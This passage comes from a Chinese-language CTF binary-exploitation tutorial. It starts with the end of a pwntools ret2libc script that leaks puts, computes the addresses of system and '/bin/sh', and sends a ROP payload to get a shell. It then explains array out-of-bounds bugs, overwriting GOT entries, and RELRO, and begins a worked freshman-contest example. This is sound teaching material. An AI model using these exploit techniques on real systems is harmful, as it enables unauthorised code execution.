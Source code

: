 ```python
print("puts_addr:" + hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
#libc = ELF("./x86_libc.so.6")
base_addr = puts_addr - libc.symbols["puts"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()
success("system:" + hex(system_addr))
success("binsh:" + hex(binsh_addr))

payload = 'a' * off + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```

数组越界
----

所谓的数组越界，简单地讲就是指数组下标变量的取值超过了初始定义时的大小，导致对数组元素的访问出现在数组的范围之外，这类错误也是 C 语言程序中最常见的错误之一。

在 C 语言中，数组必须是静态的。换而言之，数组的大小必须在程序运行前就确定下来。由于 C 语言并不具有类似 Java 等语言中现有的静态分析工具的功能，可以对程序中数组下标取值范围进行严格检查，一旦发现数组上溢或下溢，都会因抛出异常而终止程序。也就是说，C 语言并不检验数组边界，数组的两端都有可能越界，从而使其他变量的数据甚至程序代码被破坏。

### 利用数组越界漏洞我们能干什么？

答案是：修改任意地址里的数据

比如我们可以用数组越界漏洞，将got表里printf函数的地址修改成 system（‘/bin/sh’”）的地址，那么程序在之后调用printf函数时，实际上调用的是函数 system（‘/bin/sh’”），这样我们就获得了目标主机的控制权限。

### RELRO保护

在Linux中有两种RELRO模式：`Partial RELRO` 和 `Full RELRO`。Linux中`Partical RELRO`默认开启。如果开启 `FUll RELRO`，意味着我们无法修改got表，这样也就没法通过修改GOT表来进行 **Return-to-libc** 攻击

### 例题演示：

来自某学校新生杯赛题-arry

首先，利用工具查看保护，发现没有 `FUll RELRO`，意味着我们可以修改GOT表，而且开了PIE保护，说明我们很可能泄露一些地址出来，

![image-20211223124956035](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d37ef2fb60459080786034b11c0dcb55dcb17c5b.png)

![image-20211223152708565](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5a3ecb5860549997d951f542809169f883b02fc9.png)

用ida打开，发现程序可以通过数组越界查看任意地址里的值并更改它，并且程序已经存在system（“/bin/sh”）了。

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e3d2bf964824403043abb4049653cb8601cca23a.png)

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-96097aa4970be9590ea8a56d49d423e48a1ffd7b.png)

因为程序开了 **aslr保护**（最后三位不变），所以我们要先泄露程序代码段的基址，然后再将 printf 的got表覆盖成后门函数的地址，

![image-20211223154352265](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-73fb393412bab9e1ac969493bacecaf0a37c0c95.png)
